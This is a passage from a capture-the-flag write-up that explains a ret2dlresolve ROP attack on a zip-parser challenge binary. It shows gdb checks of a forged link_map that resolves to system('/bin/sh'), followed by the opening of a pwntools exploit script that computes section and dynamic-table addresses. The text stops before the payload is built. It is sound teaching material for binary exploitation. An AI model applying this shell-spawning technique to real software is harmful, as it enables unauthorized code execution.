 At last, we just need to send the zip file with ROP included, and the program
should read the `forge_data` on to `forge_area`. We can verify it in gdb that
the program return to `_dl_runtime_resolve` with the correct register and stack
setup.

{% include figure.liquid loading="eager" path="/assets/img/posts/2022-04-04-ctf-zip-parser/images/gdb_before_resolve.png" class="img-fluid rounded z-depth-1" zoomable=true %}

1. pointer to the forge `link_map` is the first value on stack, followed by
   the `rel_offset = 0`
2. we can see the `l_addr` value matched
3. `/bin/sh` is on rdx

Therefore, we resolve to `system` successfully with the desired parameter.

{% include figure.liquid loading="eager" path="/assets/img/posts/2022-04-04-ctf-zip-parser/images/gdb_enter_system.png" class="img-fluid rounded z-depth-1" zoomable=true %}

## Execution

Finally, we finish our exploitation and everything is ready to go.

```python
from pwn import *

PH = b'A'

context.terminal = ['tmux', 'splitw', '-h']

elf = context.binary = ELF('./chal')
libc = ELF('libc.so.6')

local = True

if local:
    io = elf.process()
else:
    host = '34.139.216.197'
    port = 7293
    io = remote(host, port)

if args.GDB:
    gdb.attach(io, """
        b *parse_data+522
        c
        n 14
    """)

###############################################################################
# ret2dlresolve
###############################################################################
rop = ROP([elf])

# bypass push link_map by adding 0x6 offset
resolver = elf.get_section_by_name(".plt")["sh_addr"] + 0x6
forge_area = elf.get_section_by_name(".bss")["sh_addr"] + 0x100
SYMTAB = elf.dynamic_value_by_tag('DT_SYMTAB')
STRTAB = elf.dynamic_value_by_tag('DT_STRTAB')
JMPREL = elf.dynamic_value_by_tag('DT_JMPREL')

log.info('-' * 50)
log.info(f'_dl_resolve address: {hex(resolver)}')
log.info(f'.dynsym address: {hex(SYMTAB)}')
log.info(f'.dynstr address: {hex(STRTAB)}')
log.info(f'.rel.plt address: {hex(JMPREL)}')
log.info(f'writable buffer address: {hex(forge_area)}')
```